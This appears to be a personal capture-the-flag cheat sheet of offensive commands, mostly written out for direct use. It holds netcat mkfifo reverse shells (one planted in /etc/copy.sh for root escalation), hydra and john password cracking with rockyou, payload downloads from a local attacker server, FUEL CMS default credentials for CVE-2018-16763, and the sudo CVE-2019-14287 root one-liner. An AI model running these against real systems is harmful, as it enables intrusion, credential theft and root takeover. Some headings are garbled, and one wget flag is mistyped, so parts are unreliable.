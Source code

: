 ### nmap scan
`sudo nmap -sC -sV -v -oN nmap.md TARGET_IP` 


### Gobuster Scan
`sudo gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://TARGET_IP/`

`sudo gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://TARGET_IP/ -x php,py,js,css,html,txt`

`sudo gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://TARGET_IP/ -x php,py,js,css,html,txt`


### dirbuster scan
`sudo dirb http://TARGET_IP/ -R` 

### Cat all find read
`cat *`


### import TARGET_IP
`$IP`


### To Check Sudo Permissions
`sudo -l`

`sudo su`

`su root`

### curl command to change alphabets [agent-user] in web
`sudo curl -A "CHANGE_LETTER" -L TARGET_IP`


### prev esc linux bash shell
`sudo bash`

### download file from SSH TARGET MACHINE
`scp USERNAME@TARGET_IP_ADDRS:FILENAME`


### perl write to copy.sh [reverse shell]
`echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc LOCAL_IP 5554 >/tmp/f' >/etc/copy.sh`

`sudo /usr/bin/perl /home/itguy/backup.pl`

### FTP Usage
`ftp TARGET_IP`

### SMBclient
`smbclient -L <IP_ADDRESS>`

`smbclient \\\\<TARGET_IPADDRESS>\\<SHARE_NAME>
`> eg. smbclient \\\\192.168.1.1\\$USERS 


### python shell - stable bash shell
`python3 -c  'import pty;pty.spawn("/bin/bash")'`


### FUEL CMS Exploit 1.4.1 CVE-2018-16763
`run command with ""`
example:
`CMD: "ls -la"`
default cred: admin: admin


### FUEL CMS Database login info
`fuel/application/config`

`cat database.php`


### netcat revershell
`"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc TARGET_IP 1234 >/tmp/f"`


### hydra command to brute-force FTP with username
`sudo hydra -l USERNAME -P /usr/share/wordlists/rockyou.txt TARGET_IP ftp`


### run python http server
`sudo python -m SimpleHTTPServer 80`


### wget download file
`sudo wget http://LOCAL_IP/FILE_NAME -0  PATH/PATH/`

`sudo wget http://YOUR_IP_ADDRS:8080/FILENAME`


### john cracking the password
`sudo john HASH_FILENAME --wordlist=/usr/share/wordlists/rockyou.txt`

### john ZIP file cracking
`sudo zip2john FILENAME.zip > OUTFILENAME`

### fcrackzip command
`fcrackzip <zip-file> -D -p /usr/share/wordlists/rockyou.txt`

### 7zip
`7z e ZIP_FILENAME`

### steghide command
`steghide info FILENAME [info about filename]`

`steghide extract -sf FILENAME [extract]`

### CyberChef to crack hash [base64]
https://gchq.github.io/CyberChef/

## sudo 1.8.21 exploit CVE-2019-14287
`sudo -u#-1 /bin/bash [spawn as root]`
